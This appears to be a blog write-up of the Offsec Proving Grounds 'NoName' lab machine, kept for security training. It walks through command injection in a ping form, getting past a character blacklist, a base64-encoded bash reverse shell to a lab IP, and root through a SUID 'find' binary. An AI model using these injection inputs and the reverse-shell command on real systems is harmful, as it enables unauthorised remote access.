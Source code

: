 +++
title = 'Offsec Proving Grounds NoName write-up'
date = 2024-06-14T07:07:07+01:00
+++

Starting with basic enumeration

![alt](images/img1.png)

Only port 80 is open so let’s see what’s there

![alt](images/img2.png)

It seems like some remote code execution. Lets test it by putting 'test' value. We get a 'Fake ping executed' message so the assumption is that the command ping < value > gets executed on the backend. Trying to execute another command by inputting '; whoami' , '| whoami' or '&& whoami' doesn’t return anything though. Let’s enumerate further

![alt](images/img3.png)

superadmin.php seems interesting

![alt](images/img4.png)

Here we have the script that actually performs ping command and we have code execution. After entering '| whoami' we get 'www-data' returned

![alt](images/img5.png)

However when trying to input one line reverse shells nothing happened. This plus the fact that only '|' worked and for example ';' didn’t, made me believe there is a blacklist. By entering '| cat superadmin.php' and viewing page source we can see the code of the script

![alt](images/img6.png)

Now we know why we can’t inject a plain reverse shell code. Let’s encode it then

![alt](images/img7.png)

Now we need to make the target machine decode and execute the code. As ‘bash’ wasn’t in the blacklist, the command below got us a reverse shell

> bash -c "$(echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xODEvNDQ0NCAwPiYx|base64 -d)"

![alt](images/img8.png)

**Privilege Escalation**

sudo -l didn’t return anything interesting, let’s try ‘find / -perm -u=s -type f 2>/dev/null’ to see what programs have SUID bit set

![alt](images/img9.png)

By going to [https://gtfobins.github.io/gtfobins/find/#suid](https://gtfobins.github.io/gtfobins/find/#suid) we find (see what I did there) an easy way to get root

![alt](images/img10.png)